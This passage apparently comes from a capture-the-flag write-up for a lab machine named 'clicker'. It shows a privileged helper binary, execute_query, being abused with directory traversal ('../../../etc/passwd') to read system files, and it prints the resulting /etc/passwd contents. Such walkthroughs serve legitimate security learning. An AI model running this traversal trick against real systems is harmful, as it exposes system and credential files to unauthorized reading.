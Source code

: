 
It gets a filename, appends it to the `mysql` command so that it’s pass as
input, and runs it with `-v` which shows the file.

I’ll also note that while case 0 is a failure, the default case runs with
`argv[2]` as the filename.

### File Read

I’ll try to read a file using `execute_query` with type 223 (or any other
input that matches the default case) and directory traversal to get the file I
want. It’s not able to read `user.txt`:

    
    
    www-data@clicker:/opt/manage$ ./execute_query 223 ../user.txt     
    File not readable or not found
    

But `/etc/passwd` works:

    
    
    www-data@clicker:/opt/manage$ ./execute_query 223 ../../../etc/passwd
    mysql: [Warning] Using a password on the command line interface can be insecure.
    --------------
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    pollinate:x:105:1::/var/cache/pollinate:/bin/false
    sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
    syslog:x:107:113::/home/syslog:/usr/sbin/nologin
    uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
    tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
    landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
    fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
    usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    jack:x:1000:1000:jack:/home/jack:/bin/bash
    lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
    mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
    _rpc:x:115:65534::/run/rpcbind:/usr/sbin/nologin
    statd:x:116:65534::/var/lib/nfs:/usr/sbin/nologin
    _laurel:x:998:998::/var/log/laurel:/bin/false
    --------------
    